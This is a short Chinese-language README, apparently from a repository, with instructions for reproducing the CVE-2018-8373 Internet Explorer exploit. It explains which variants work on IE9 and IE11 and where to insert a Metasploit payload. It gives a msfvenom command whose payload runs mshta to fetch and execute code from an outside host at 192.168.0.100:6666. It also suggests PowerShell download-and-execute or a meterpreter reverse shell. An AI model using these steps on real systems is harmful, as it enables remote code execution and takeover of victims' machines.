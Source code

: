 #CVE-2018-8373 REC


`怎样修改Exploit`
    
    BeforeIE9是可以对IE9之前的版本进行利用，但是在有些X64位机器上不行
    
    BeforeIE11是比较好用的，可以针对IE11之前的版本进行利用
    
    IE11 修改与CVE-2018-8174修改差不多  在165行左右 填充msf生成的payload即可

`怎样使用`
    
    IE9可以直接执行命令 调用Powershell下载执行即可
    
    IE11可以使用msf的powershell meterpreter模块反弹 也可以将下载命令使用msf编码执行

`复现注意事项`
    
    我的知乎专栏 MSF文章
    https://zhuanlan.zhihu.com/p/40091321
    生成 执行命令的payload 这个位置生成的payload是用来填充的
    msfvenom -p windows/exec cmd='mshta http://192.168.0.100:6666/hFmjv' -f js_le exitfunc=thread 
    
    填充payload的时候要注意，与8174有一点不同
    
    就是不是全填充而是在 原来的地方要修改  具体看修改  
    
    要保留如下字符串 然后在这个字符串之前填充  不然是无法复现成功的
   
    %u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc
    
    我从官网即时下载的IE11也存在问题，所以危害还是很大的。。
    
    
    

##最后感谢看雪大佬提供的EXP。

